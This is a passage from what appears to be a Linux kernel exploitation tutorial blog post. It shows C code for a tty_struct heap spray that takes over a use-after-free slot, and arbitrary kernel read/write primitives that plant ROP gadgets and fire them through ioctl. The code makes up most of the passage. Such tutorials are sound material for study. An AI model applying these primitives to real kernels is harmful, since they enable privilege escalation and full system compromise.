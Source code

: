 ```c
        if (read(fd2, &x, sizeof(int)) == sizeof(int) && x == 0x5401) {
            printf("[+] Spray hit! x=0x%x\n", x);
            // Close all other handles
            for (int j = 0; j < i; j++) {
                close(spray[j]);
            }
            // Return fd that controls UAF area
            return (void*)spray[i];
        }
    }
    for (int i = 0; i < 800; i++) {
        close(spray[i]);
    }
    puts("[+] Spray did not hit");

    return (void*)-1;
}
```
Here, I also added the check if the spray hit the use-after-free area and the check whether the first element corresponds to magic number from `tty_struct` which is `0x5401`.
```c
struct tty_struct {
	int	magic;
    ...
```
# AAR and AAW primitives

For AAR and AAW primitives I used the same functions from the [previous post](../../../2024/01/20/Linux-Kernel-Exploitation-Heap-techniques.html#crafting-other-primitives) except I saved the fd of the sprayed object so I don't have to loop over all spawned objects. I sacrificed bytes starting from 127*8 position to store the ROP instruction because I wanted to use the same chunk I use to trigger the read/write. These bytes should correspond to the last element in `tty_struct` and with testing they did not cause the kernel to crash.
```c
struct tty_struct {
    ...
	struct tty_port *port;
} __randomize_layout;
```
Here is the code for AAR and AAW.
```c
long long AAR64(long long addr, int fd) {
    long long* p = (long long*)&buf;

    p[127] = mov_rax_ptr_rdx;
    p[3] = g_buf + 0x3f8 - 12*8;

    write(fd2, buf, 0x400);

    return ioctl(fd, 0, addr);
}

void AAW32(long long addr, unsigned int val, int fd) {
    long long* p = (long long*)&buf;

    p[127] = mov_ptr_rdx_ecx;
    p[3] = g_buf + 0x3f8 - 12*8;

    write(fd2, buf, 0x400);

    ioctl(fd, val, addr);
}
```